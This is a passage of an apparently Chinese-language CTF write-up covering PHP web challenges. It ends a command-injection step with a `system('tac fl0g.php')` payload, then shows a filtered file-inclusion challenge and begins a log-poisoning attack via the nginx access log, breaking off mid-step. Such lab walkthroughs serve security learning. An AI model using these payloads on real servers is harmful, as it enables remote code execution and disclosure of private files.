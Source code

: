 ![image-20230710001554250](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230710001554250.png)

发包后发现fl0g.php文件
![image-20230710001630837](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230710001630837.png)

重复上述操作，修改POST传参中的命令

```
<?php system('tac fl0g.php');?>
```

![image-20230710001744752](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230710001744752.png)

得到flag内容：
![image-20230710001815667](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230710001815667.png)

### [web81]日志包含

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 15:51:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

php、data、：（冒号）都失效了

可以读取日志信息

在url后面加入日志文件的路径

```
?file=/var/log/nginx/access.log
```

进行两次发包，第一次将User-Agent修改为
